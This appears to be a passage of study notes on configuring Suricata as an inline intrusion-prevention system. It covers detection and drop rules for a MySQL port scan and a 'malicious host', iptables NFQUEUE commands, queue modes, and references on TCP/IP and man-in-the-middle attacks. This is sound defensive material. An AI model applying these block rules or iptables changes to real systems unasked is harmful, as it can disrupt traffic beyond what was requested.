alert tcp $EXTERNAL_NET any -> $HOME_NET 3306 (msg:"ET SCAN Suspicious inbound to mySQL port 3306"; flow:to_server; flags:S; threshold: type limit, count 5, seconds 60, track by_src; metadata: former_category POLICY; reference:url,doc.emergingthreats.net/2010937; classtype:bad-unknown; sid:2010937; rev:3; metadata:created_at 2010_07_30, updated_at 2018_03_27;) drop tcp any any -> 10.33.33.1 any (msg: "TCP packet to malicious host, Drop"; sid:10001;) drop tcp 10.33.33.1 any -> any any (msg: "TCP packet from malicious host, Drop"; sid:10002;) drop udp any any -> 10.33.33.1 any (msg: "UDP packet to malicious host, Drop"; sid:10003;) drop udp 10.33.33.1 any -> any any (msg: "UDP packet from malicious host, Drop"; sid:10004;)
NFQUEUE: iptables and ip6tables target which delegates the decision on packets to a userspace software.- When sudicata is installed in gateway:
sudo iptables -I FORWARD -j NFQUEUE
- When installed on the host that should be protected:
sudo iptables -I INPUT -j NFQUEUE sudo iptables -I OUTPUT -j NFQUEUE
- Example:
iptables -t mangle -I PREROUTING -p tcp -m tcp --dport 80 -j NFQUEUE --queue-num 0 iptables -t mangle -I PREROUTING -p tcp -m tcp --sport 80 -j NFQUEUE --queue-num 0 iptables -t mangle -I PREROUTING -p udp -m udp --dport 53 -j NFQUEUE --queue-num 0 iptables -t mangle -I PREROUTING -p udp -m udp --sport 53 -j NFQUEUE --queue-num 0
- When sudicata is installed in gateway:
- Modes:
nfq: mode: accept/repeat/route repeat_mark: 1 # repeat mode option repeat_mask: 1 # repeat mode option route_queue: 2 # route mode option
accept: the packet will not be inspected by the rest of the iptables rulesrepeat: the packets will be marked by Suricata and re-injected to the first rule of iptables. Looping is avoided by:iptables -I FORWARD -m mark ! --mark $MARK/$MASK -j NFQUEUE
route: make sure the packet will be sent to another tool after being processed by Suricata
- Reload rules:
suricatasc -c reload-rules
References¶
- Beginner's Guide to Impacket Tool kit (Part 1)
- Let's code a TCP/IP stack, 1: Ethernet & ARP: http://www.saminiir.com/lets-code-tcp-ip-stack-1-ethernet-arp/
- Let's code a TCP/IP stack, 2: IPv4 & ICMPv4: http://www.saminiir.com/lets-code-tcp-ip-stack-2-ipv4-icmpv4/
- Let's code a TCP/IP stack, 3: TCP Basics & Handshake: http://www.saminiir.com/lets-code-tcp-ip-stack-3-tcp-handshake/
- Practical man-in-the-middle attacks in computer networks - Matˇej Plch: https://is.muni.cz/th/s8uf2/thesis.pdf